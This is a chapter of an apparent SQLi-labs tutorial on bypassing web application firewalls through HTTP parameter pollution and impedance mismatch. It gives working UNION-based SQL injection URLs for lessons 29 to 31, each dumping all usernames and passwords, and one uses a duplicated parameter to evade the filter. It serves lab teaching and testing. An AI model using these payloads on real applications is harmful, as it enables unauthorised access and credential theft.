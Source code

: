 # Chapter-10 

## Demolishing Walls : Bypassing WAFs

Before we get into bypassing WAFs, lets first have look at few other basic things. 

### Introduction to WAFs (Web Application Firewalls)

> Web application firewalls (WAFs) are security tools designed to provide an independent security layer for web applications. Implemented as appliances, network sniffers, proxies, or web server modules, they analyze inbound and outbound data and detect and protect against attacks.

WAFs are quite common these days and provide standard level security to web applications. 

More information can be found on [Ivan Ristic's paper on WAFs](#).

### HTTP Parameter Pollution: HPP

This [site](https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004)) explains HPP in great detail.

The following table illustrates how different web technologies behave in presence of multiple occurrences of the same HTTP parameter -

The sample url that is used is as follows - 

```
http://example.com/?color=red&color=blue
```

<p align="center"><img src ="images/hpp.png" /></p>

### Impedence Mismatch 

This occurs when the WAF is filtering a particular part of the url and the backend is interpreting a differnt part of the query string. 

This can be used to bypass WAF firewalls. The following can be done to achieve this - 

>1.  Submit an HTTP request containing the standard parameter name and value, and record the HTTP response. E.g. page?par1=val1
>1.  Replace the parameter value with a tampered value, submit and record the HTTP response. E.g. page?par1=HPP_TEST1
>1.  Send a new request combining step (1) and (2). Again, save the HTTP response. E.g. page?par1=val1&par1=HPP_TEST1
>1.  Compare the responses obtained during all previous steps. If the response from (3) is different from (1) and the response from (3) is also different from (2), there is an impedance mismatch that may be eventually abused to trigger HPP vulnerabilities.

## Lesson 29

This challenge is quite straight forward and be solved by entering the following url - 

```
http://localhost/sqlilabs/Less-29/?id=' union select 1, group_concat(username), group_concat(password) from users --+
```

## Lesson 30

This challenge makes use of WAF to filter out the unnecessary elements present in the url. 

In order to bypass this, we can make use of HTTP Parameter Pollution. When we pass another ```id``` paramter to the url, we are able to see the desired output. 

The reason for this is that, the test-bed is using ```Apache Tomcat server``` which makes use of the first parameter. 

The ```WAF``` checks only the first parameter but not the inject second parameter. We therefore pass a correct value to the first parameter and a malicious parameter to the second parameter. 

Now, it turns out that the back-end of the test-bed is running PHP which always evaluates the second parameter when multiple parameters are passed. Therefore, our malicious query gets executed. 

This is how impedence mismatch can be used to exploit the WAF. 

The query for this challenge can be found below - 

```
http://localhost/sqlilabs/Less-30/?id=6&id=-5" union select 1, group_concat(username), group_concat(password) from users --+
```

## Lesson 31 

This challenge can be solved easily by entering the following in the url - 

```
http://localhost/sqlilabs/Less-31/?id=-3") union select 1, group_concat(username), group_concat(password) from users --+
```

This challenge doesn't show any errors, therefore the right payload can be found by trying out different values. 